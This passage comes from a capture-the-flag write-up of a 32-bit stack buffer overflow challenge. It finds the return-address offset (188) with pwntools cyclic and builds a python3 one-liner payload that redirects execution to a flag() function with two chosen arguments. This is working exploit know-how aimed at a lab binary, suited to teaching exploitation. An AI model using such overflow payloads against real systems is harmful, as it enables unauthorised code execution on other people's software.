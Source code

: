 
We can see that the first 4-bytes that overflow the EIP is 'waab'.

We can then do a `cyclic -l` to see the offset:

```
cyclic -l waab
Finding cyclic pattern of 4 bytes: b'waab' (hex: 0x77616162)
Found at offset 188
```

Boom! Same thing that we gathered from `ghidra`.

Viewing the disassembly of `vuln()`:

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

Let's grab the EBP of `vuln()`: <mark style="color:red;">`0x08049272`</mark>

## Exploitation

### Manual Exploitation

We can use `python3` to overflow the buffer. It's about time I start using `python3` for manual exploitation XD.

Exploit Structure: <mark style="color:yellow;">188 junk A's (padding) + flag() EBP address + "junk return address" & param\_1 & param\_2</mark>

{% code overflow="wrap" %}
```python
python3 -c "import sys; sys.stdout.buffer.write(b'A'*188+b'\xe2\x91\x04\x08'+b'1337\xef\xbe\xad\xde\x0d\xd0\xde\xc0')"  > payload
```
{% endcode %}
